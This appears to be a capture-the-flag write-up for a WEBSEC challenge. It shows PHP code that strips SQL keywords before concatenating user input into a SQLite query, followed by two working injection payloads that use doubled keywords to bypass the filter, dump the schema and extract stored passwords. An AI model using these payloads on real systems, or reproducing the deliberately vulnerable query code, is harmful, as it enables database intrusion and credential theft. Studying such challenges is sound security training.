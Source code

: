 The following keywords were found to be filtered by the application using preg_replace (): union, order, select, from, group, by
```
class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

STEP 1: 0 UNIUNIONON SELSELECTECT 1,sql FROFROMM sqlite_master--
OUTPUT: Other User Details: 
        id -> 1
        username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))
        (Columns)

STEP 2: 0 UNIUNIONON SELSELECTECT 1, GROGROUPUP_CONCAT(password) FROFROMM users--
OUTPUT: Other User Details: 
      id -> 1
      username -> WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}

